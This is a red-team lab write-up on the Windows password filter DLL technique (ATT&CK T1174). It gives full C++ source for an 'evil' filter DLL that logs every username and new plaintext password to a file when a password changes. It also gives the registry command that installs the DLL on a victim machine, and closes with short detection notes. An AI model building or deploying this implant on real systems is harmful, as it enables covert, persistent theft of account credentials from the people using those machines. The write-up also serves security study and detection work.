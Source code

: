 ```yaml
---
description: Credential Access
---
```


# T1174: Password Filter DLL

This lab explores a native OS notification of when the user account password gets changed, which is responsible for validating it. That means, the password can be intercepted..

## Execution

Password filters are registered in registry and we can see them here:

{% code-tabs %}
{% code-tabs-item title="attacker@victim" %}
```csharp
reg query "hklm\system\currentcontrolset\control\lsa" /v "notification packages"
```
{% endcode-tabs-item %}
{% endcode-tabs %}

Or via regedit:

![](../.gitbook/assets/password-filter-regedit.png)

Building an evil filter DLL based on a great [article](http://carnal0wnage.attackresearch.com/2013/09/stealing-passwords-every-time-they.html) by mubix. He has also kindly provided the code to use, which I modified slightly to make sure that the critical DLL functions were exported in order for this technique to work since mubix's code did not work for me out of the box. I also had to change the logging statements in order to rectify a couple of compiler issues:

```cpp
#include "stdafx.h"
#include <windows.h>
#include <stdio.h>
#include <WinInet.h>
#include <ntsecapi.h>
#include <stdio.h>
#include <iostream>
#include <fstream>
using namespace std;

void writeToLog(const char* szString)
{
	FILE *pFile;
	fopen_s(&pFile, "c:\\logFile.txt", "a+");

	if (NULL == pFile)
	{
		return;
	}
	fprintf(pFile, "%s\r\n", szString);
	fclose(pFile);
	return;

}

extern "C" __declspec(dllexport) BOOLEAN __stdcall InitializeChangeNotify(void)
{
	OutputDebugString(L"InitializeChangeNotify");
	writeToLog("InitializeChangeNotify()");
	return TRUE;
}

extern "C" __declspec(dllexport) BOOLEAN __stdcall PasswordFilter(
	PUNICODE_STRING AccountName,
	PUNICODE_STRING FullName,
	PUNICODE_STRING Password,
	BOOLEAN SetOperation)
{
	OutputDebugString(L"PasswordFilter");
	return TRUE;
}

extern "C" __declspec(dllexport) NTSTATUS __stdcall PasswordChangeNotify(
	PUNICODE_STRING UserName,
	ULONG RelativeId,
	PUNICODE_STRING NewPassword)
{
	FILE *pFile;
	fopen_s(&pFile, "c:\\logFile.txt", "a+");

	OutputDebugString(L"PasswordChangeNotify");
	if (NULL == pFile)
	{
		return true;
	}
	fprintf(pFile, "%ws:%ws\r\n", UserName->Buffer, NewPassword->Buffer);
	fclose(pFile);
	return 0;
}
```

{% file src="../.gitbook/assets/evilpwfilter.dll" caption="Password Filter DLL" %}

Injecting the evil password filter into the victims system:

{% code-tabs %}
{% code-tabs-item title="attacker@victim" %}
```csharp
reg add "hklm\system\currentcontrolset\control\lsa" /v "notification packages" /d scecli\0evilpwfilter /t reg_multi_sz

Value notification packages exists, overwrite(Yes/No)? yes
The operation completed successfully.
```
{% endcode-tabs-item %}
{% endcode-tabs %}

![](../.gitbook/assets/password-filter-updating-registry.png)

Testing password changes after the reboot - note how the password changes are getting logged:

![](../.gitbook/assets/password-filter-filter-working.png)

## Observations

Windows event `4614` notifies about new packages loaded by the SAM:

![](../.gitbook/assets/password-filter-log1.png)

Logging command line can also help in detecting this activity:

![](../.gitbook/assets/password-filter-cmdline.png)

...especially, if the package has just been recently dropped to disk:

![](../.gitbook/assets/password-filter-createdtime.png)

Also, maybe it is worth considering checking any new DLLs dropped to `%systemroot%\system32` for exported `PasswordChangeNotify` function?

![](../.gitbook/assets/password-filter.png)

{% embed data="{\"url\":\"http://carnal0wnage.attackresearch.com/2013/09/stealing-passwords-every-time-they.html\",\"type\":\"link\",\"title\":\"Stealing passwords every time they change\",\"description\":\"Password Filters  \[0\] are a way for organizations and governments to enforce stricter password requirements on Windows Accounts than those a...\",\"icon\":{\"type\":\"icon\",\"url\":\"http://carnal0wnage.attackresearch.com/favicon.ico\",\"aspectRatio\":0},\"thumbnail\":{\"type\":\"thumbnail\",\"url\":\"http://4.bp.blogspot.com/-mQpGY-r4r-M/Ui96UJQH3dI/AAAAAAAADic/IFTyH90xM\_8/s640/Screen+Shot+2013-09-10+at+3.59.11+PM.png\",\"width\":640,\"height\":148,\"aspectRatio\":0.23125}}" %}

{% embed data="{\"url\":\"https://attack.mitre.org/wiki/Technique/T1174\",\"type\":\"link\",\"title\":\"Password Filter DLL - ATT&CK for Enterprise\"}" %}

